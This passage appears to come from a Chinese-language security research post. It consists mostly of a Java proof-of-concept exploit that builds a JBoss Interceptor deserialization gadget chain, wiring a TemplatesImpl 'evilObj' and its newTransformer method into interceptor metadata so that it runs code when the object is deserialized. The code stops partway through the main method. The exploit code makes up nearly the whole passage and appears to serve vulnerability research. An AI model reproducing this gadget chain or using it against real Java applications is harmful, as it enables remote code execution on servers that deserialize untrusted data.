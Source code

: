 整个过程无意义且枯燥, 那么就不再仔细研究他们之间的关系了.  
#### POC  
  
给出如下POC:  
```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.interceptor.builder.BuildableInterceptionModel;
import org.jboss.interceptor.builder.InterceptionModelBuilder;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.interceptor.proxy.DirectClassInterceptorInstantiator;
import org.jboss.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.interceptor.reader.ClassMetadataInterceptorReference;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.reader.ReflectiveClassMetadata;
import org.jboss.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.interceptor.spi.instance.InterceptorInstantiator;
import org.jboss.interceptor.spi.metadata.ClassMetadata;
import org.jboss.interceptor.spi.metadata.InterceptorReference;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionModel;
import org.jboss.interceptor.spi.model.InterceptionType;


import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class UnserialPOC {
    public static void main(String[] args) throws Exception {
        TemplatesImpl evilObj = getTemplatesImpl();
        Method evilMethod = evilObj.getClass().getMethod("newTransformer");

        InterceptionModelBuilder builder = InterceptionModelBuilder.newBuilderFor(HashMap.class);
        ReflectiveClassMetadata metadata = (ReflectiveClassMetadata) ReflectiveClassMetadata.of(HashMap.class);
        InterceptorReference interceptorReference = ClassMetadataInterceptorReference.of(metadata);

        Set<InterceptionType> s = new HashSet<>();
        s.add(InterceptionType.POST_ACTIVATE); // 准备一个 Set, 内容为 InterceptionType.POST_ACTIVATE
        DefaultMethodMetadata methodMetadata = getObjByReflection(DefaultMethodMetadata.class,                new Class[]{Set.class, MethodReference.class},                new Object[]{s, MethodReference.of(evilMethod, true)});


        List list = new ArrayList();
        list.add(methodMetadata);
        Map<InterceptionType, List<MethodMetadata>> hashMap = new HashMap<>();
        hashMap.put(InterceptionType.POST_ACTIVATE, list); // 准备一个 Map, Key 为 Set 中存在的内容

        SimpleInterceptorMetadata simpleInterceptorMetadata =
                new SimpleInterceptorMetadata(interceptorReference, true, hashMap);
        builder.interceptAll().with(simpleInterceptorMetadata);
        InterceptionModel model = builder.build();

```